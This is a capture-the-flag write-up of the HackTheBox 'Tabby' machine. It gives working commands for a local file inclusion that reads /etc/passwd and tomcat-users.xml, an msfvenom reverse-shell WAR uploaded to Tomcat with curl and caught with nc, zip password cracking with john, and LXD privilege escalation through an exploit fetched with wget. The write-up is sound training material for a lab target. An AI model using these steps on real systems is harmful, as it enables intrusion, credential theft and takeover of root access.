

# Tabby
[Room link](https://www.hackthebox.eu/home/machines/profile/259)

# Enumeration
Rustscan shows port 22, 80 and 8080 are open.

Port 80 is a website "Mega Hosting".
Port 8080 is a Tomcat server.

Port 80, clicking on the news section redirects us to http://megahosting.htb/news.php?file=statement this is just the 10.10.10.194 host so let's add it to our hosts file.
Important here is the ?file=statement part, we can use LFI here.

As always we check the /etc/passwd file real quick but on first sight nothing interesting pops up.
http://10.10.10.194/news.php?file=../../../../../../../etc/passwd

Not too long ago I did a box about exploiting LXD, so the LXD user immediately got my attention.
The LXD user is clearly not for this step though because that would require us to already be on the box.

After doing a bit more research I found out about the existence of a file called tomcat-users.xml
This file contains info about users who have access to the tomcat admin panel so it's definitely worth trying to get our hands on.
I spent about 30 minutes looking for this file but I did finally find it thanks to this askubuntu thread.

https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory

I modified it a little bit and eventually stumbled upon the file here:
http://10.10.10.194/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml



Now we got a precious login:
``tomcat:$3cureP4s5w0rd123!``

*Note*: when doing LFI you should use Burp Suite instead of just using your browser, tomcat-users.xml wouldn't show anything in the browser but it would in Burp, you can easily miss information by using your browser.

Let's login to the host-manager.

# Getting a shell
After getting into the host manager I got stuck for a bit, I read some documentation and eventually looked up how to exploit the *manager*.
Now some of you may realise that /manager and /host-manager are two completely different things, but I didn't realise this while researching.
This ended up being very good for me as I never realised that my login didn't work for the normal /manager endpoint, if I did realise this I would have probably been stuck here a lot longer.

During this research I found this really nice article on how to exploit the manager, I ended up using the msfvenom approach as the metasploit option didn't work (which makes sense because my credentials don't have permission to access the /manager page).
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

We can generate a reverse shell using msfvenom.

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.160 LPORT=1234 -f war > shell.war
```

The problem starts to come when you want to upload the reverse shell. The methods explained in the article didn't work for me (again, because I didn't have the correct permissions).
I did some more research and eventually found a stackoverflow thread on how to upload a war file using only the command line.

https://stackoverflow.com/questions/25029707/how-to-deploy-war-file-to-tomcat-using-command-prompt

The one that worked for me was this one:

```sh
curl -v -u 'tomcat:$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true'
```

This worked and I'll be honest, after writing this and furter researching this I don't fully understand why, if you know why feel free to contact me.

Anyways back to hacking.
Now that we have our payload uploaded we can get a shell.
During payload generation I put the listening port to 1234 so I'll listen on that port.

```sh
nc -lvnp 1234
```

Now let's see if our payload worked, point the browser to http://10.10.10.194:8080/shell/ and a shell should open.

# Becoming Ash
Now that we have a shell we can do some exploring. In the /home directory we can find a user called "ash".
In the /var/www/html/files directory we can find a backup zip file, let's download it.
I personally just used wget to get the file but there's probably some other ways.

```sh
wget http://10.10.10.194/news.php?file=../../../../../../../../var/www/html/files/16162020_backup.zip
mv news.php\?file\=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Fwww%2Fhtml%2Ffiles%2F16162020_backup.zip backup.zip
```

Now we have a copy of the backup so we can unzip it, or can we?
Nope, it's password protected, let's use john the ripper to crack it.

```sh
zip2john backup.zip > ziphash.txt
john ziphash.txt --wordlist=/opt/wordlists/rockyou.txt
```
> admin@it         (backup.zip)

Boom, we got the password for the zip. I looked around in here but there's nothing interesting.
The point of cracking this zip was not to look at the files but it was actually to get the password of the ash user, as this also admin@it.

So let's change to the ash user, I tried to ssh into the device but it didn't work so we'll have to use the old shell.
We're still in an unstable reverse shell so let's stabilize it.

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
You could stabilize it further using stty and exporting your term but that won't be necessary unless you really need your CTRL-L.
Oh yeah, don't forget to get your user flag.

# I am become root

We could do some quick manual enumeration (such as sudo -l) but as you might remember there was an LXD user.
You might also remember I mentioned exploiting this in a previous box, let's see if it's the same vulnerability.

First get the source code for the exploit, you can just copy it from the exploit-db page.
https://www.exploit-db.com/exploits/46978
I saved it as exploit.sh.

```sh
# On the attacker machine, execute in same folder as exploit.sh
sudo python3 -m http.server 80

# On the victim machine
wget http://[attacker-ip]/exploit.sh

chmod +x exploit.sh
./exploit.sh -f alpine-v3.12-i686-20201025_1407.tar.gz
```

If you did everything right a container will open, let's confirm if we are root using *whoami*
Congrats on rooting the box, you can get your very deserved root flag now.

*Note*: the alpine file was already on the system when i logged in, in case it isn't you should build your own and transfer it to the ash user. There's detailed instructions on how to do that on the exploit-db page. Please clean up after you exploit :).

```sh
cat /mnt/root/root/root.txt
```

# Conclusion
I spent a few hours completing this box and I'm very happy I did.
I got to learn a lot more about Tomcat and got to use an exploit I had used before which really showed me that CTFs are truly a valuable use of your time.
